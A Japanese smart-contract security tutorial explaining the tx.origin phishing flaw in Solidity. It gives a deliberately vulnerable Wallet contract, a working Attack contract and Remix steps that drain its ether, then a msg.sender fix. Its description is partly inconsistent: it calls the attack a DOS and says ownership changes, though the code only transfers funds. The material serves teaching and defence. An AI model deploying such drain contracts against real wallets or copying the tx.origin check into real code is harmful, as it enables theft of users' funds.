 # tx.originを使用した攻撃

`tx.origin` はグローバル変数で、オリジナルのトランザクションを作成したアドレスを返します。
これは `msg.sender` と似ていますが、重要な注意点があります。
`tx.origin` を正しく使用しないと、スマートコントラクトのセキュリティ脆弱性につながる可能性があることを学びます。

## tx.originとは？

`tx.origin` はグローバル変数で、トランザクションを送信した口座のアドレスを返します。
では、`msg.sender` とは何なのか、と思われるかもしれません。
- `tx.origin` はトランザクションを開始した元の外部アカウント（ユーザー）を指す。
- `msg.sender` は関数を呼び出した即時アカウントで、外部アカウントまたは関数を呼び出す他のコントラクトである可能性があることです。

したがって、たとえば、ユーザーがコントラクトAを呼び出し、それが同じトランザクション内でコントラクトBを呼び出した場合、コントラクトB内からチェックすると、`msg.sender` はコントラクトAと同じになります。
ただし、`tx.origin` はどこからチェックしてもユーザーと同じになります。

## スマートコントラクトへのDOS攻撃

`Wallet.sol` と `Attack.sol`の2つのスマートコントラクトが用意される予定です。
初期状態では、`Wallet.sol`のオーナーは User1 となる。攻撃機能`Attack.sol`を使うと、`Wallet.sol`の所有者を攻撃者に変更することができるようになる。
結果、User1 のお金が攻撃者に盗み取られてしまう。

## 実演

[Remix IDE](https://remix.ethereum.org/#optimize=false&runs=200&evmVersion=null&version=builtin)を開き、全てのディレクトリとファイルを削除します。

`Wallet.sol` というコントラクトを作成します。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract Wallet {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function deposit() public payable {}

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        // require(msg.sender == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }

    function getBalacne() public view returns (uint) {
        return address(this).balance;
    }
}
```

今度は、`Attack.sol` というコントラクトを作成し、以下のコードを記述します。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "./Wallet.sol";

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```

以下の手順で実行します。

- `Wallet.sol` を開き、ACCOUNTをデフォルトの `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` にして、デプロイ。
- VALUEの値を `1 Ether` にし、Walletコントラクトのドロップダウン内にある `deposit` ボタンを押す。 -> `getBalance` ボタンを押し、`1000000000000000000` が表示されることを確認。
- `Attack.sol` を開き、ACCOUNTを１個下(`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`)に変更、`Wallet` コントラクトのアドレスをコピペしてデプロイ。
- `Wallet` コントラクト内の `transfer` ボタンのテキストボックスに、「`Attack` コントラクトのアドレス, 1000000000000000000」を入力し、ボタンを押す。 -> エラーになることを確認。
- ACCOUNTをデフォルトに戻し、`Attack` コントラクトの `attack` ボタンを押す。
- Walletコントラクトの `getBalance` ボタンを押して、数値が `0` になっていることを確認。
- ACCOUNTで `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2` の ether残高が、１ether 増えていることを確認。

攻撃は次のように行われます。
最初は User1 が `Wallet.sol` を展開し、オーナーとなりますが、攻撃者は User1 を何らかの方法で騙して、 `Attack.sol` で攻撃関数を呼び出すようにします。

`attack` 関数はさらに `Wallet.sol` の `transfer` 関数を呼び出し、まず`tx.origin`が本当に User1 によって呼び出されたトランザクションであるため、真であるかどうかをチェックする。
所有者を確認した後、`Attack.sol` に所有者を設定する。

こうして、攻撃者は `Wallet.sol` の所有者を変更することに成功します。

## 実際の事例

`tx.origin` が使用されているのを見たことがないため、これはほとんどの人にとって当たり前のことに思えるかもしれませんが、一部の開発者はこの間違いを犯しています。
[THORChain Hack #2](https://rekt.news/thorchain-rekt2/)はこちらで読むことができます。
攻撃者がユーザーのウォレットに偽のトークンを送ることによって$RUNEトークンの承認を得ることができ、Uniswapでそのトークンを販売することを承認するとユーザーのウォレットから攻撃者のウォレットに$RUNEが転送されてしまうため、ユーザーは数百万の$RUNEを失いました。
これは THORChain が転送チェックに `msg.sender` の代わりに `tx.origin` を使っていたからです。

## 予防策

`tx.origin` の代わりに `msg.sender` を使用することで、このような事態を防ぐことができます。

```solidity
function transfer(address payable _to, uint _amount) public {
    require(msg.sender == owner, "Not owner");

    (bool sent, ) = _to.call{value: _amount}("");
    require(sent, "Failed to send Ether");
}
```